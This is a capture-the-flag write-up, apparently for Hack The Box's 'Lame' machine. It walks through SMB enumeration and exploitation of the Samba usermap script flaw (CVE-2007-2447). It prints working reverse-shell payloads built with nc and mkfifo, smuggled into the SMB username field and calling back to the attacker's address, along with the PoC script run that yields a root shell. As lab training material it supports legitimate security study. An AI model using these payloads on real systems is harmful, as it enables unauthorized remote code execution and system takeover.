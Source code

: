 # SMB

## Enumerating SMB Shares

Time to look at SMB instead. We can first map the shares:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The only one we can connect to is `tmp`. Trying gives us the following error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient -N //10.10.10.3/tmp
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

This is because our config is setup not to connect to shares on older SMB versions for security reasons. We can change our config at `/etc/samba.smb.conf`, or we can supply a command line parameter so we don't make an insecure config change and forget to revert it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon May  3 21:52:58 2021
  ..                                 DR        0  Sat Oct 31 06:33:58 2020
  .ICE-unix                          DH        0  Mon May  3 21:43:29 2021
  vmware-root                        DR        0  Mon May  3 21:43:51 2021
  .X11-unix                          DH        0  Mon May  3 21:43:54 2021
  .X0-lock                           HR       11  Mon May  3 21:43:54 2021
  vgauthsvclog.txt.0                  R     1600  Mon May  3 21:43:26 2021

		7282168 blocks of size 1024. 5386612 blocks available
```

After all that, there was nothing interesting in the directory anyway. 

## SMB Exploit

So instead we can look at the version number in searchsploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ searchsploit Samba 3.0
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

...[snip]...

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                       | unix/remote/16320.rb

...[snip]...

Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                  | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                  | linux/remote/7701.txt

...[snip]...

----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There are a couple of exploits for the version we want. The remote heap overflow isn't clear how it should be executed, so even though we don't want to use metasploit I tried to look at the module to see how it works, using `searchsploit -x unix/remote/16320.rb`.

The metasploit module references [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447). This seems to be the key code:

```ruby
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
				simple.client.negotiate(false)
				simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
				# nothing, it either worked or it didn't ;)
		end

		handler
end
```

It seems a payload should be supplied inside the username parameter when authenticating with SMB. Let's try to do so:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient //10.10.10.3/tmp -U "/=`nohup nc 10.10.14.13 9001 -e /bin/bash`"
nohup: ignoring input and redirecting stderr to stdout
```

We get a hit on our listener! But, strangely, it is from our box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.14.13] 37426
```

I did some googling, and it turns out backticks \` are executed by bash before the rest of the command ([according to Stack Exchange](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)). This is used for command substitution, where the results are passed to bash.

I tried escaping the backticks this time - I also had to pass the extra parameter as I was getting the `NT_STATUS_CONNECTION_DISCONNECTED` error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient //10.10.10.3/tmp -U "/=\`nohup nc 10.10.14.13 9001 -e /bin/bash\`" --option='client min protocol=NT1'
Enter =`NOHUP NC 10.10.14.13 9001 -E \bin/bash`'s password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

This was potentially progress, as it was no longer evaluating the command on my box - but it wasn't giving me a shell either.

It seemed to be capitalising the command. I wasn't sure how to fix this, so I looked for a PoC script.

## PoC

Googling "CVE 2007 2447 poc" gave me [this exploit](https://github.com/amriunix/CVE-2007-2447). I cloned it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ git clone https://github.com/amriunix/CVE-2007-2447.git
```

This exploit builds the following payload:

```python
payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
username = "/=`nohup " + payload + "`"
```

I grabbed the `pysmb` library:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ /usr/bin/python2 -m pip install pysmb
```

Then executed:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ python2 usermap_script.py 10.10.10.3 445 10.10.14.13 9001
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Sure enough:

![[Pasted image 20210503224059.png]]

The shell pops us out as root, so we can grab both flags:

![[Pasted image 20210503224421.png]]

There's no fancy 'you rooted Lame' screen for this one, as we had already cracked this box on the SESH account. Either way, that's the box!

## Alternate Method

After reading [0xdf's writeup](https://0xdf.gitlab.io/2020/04/07/htb-lame.html) I realised I could have used an alternate command to login to SMB after connecting, and supplied the payload there:

```bash
smb: \> logon "./=`nohup nc 10.10.14.13 9001 -e /bin/bash`"
```

# Tags

#writeup #oscp-prep #cve #smb 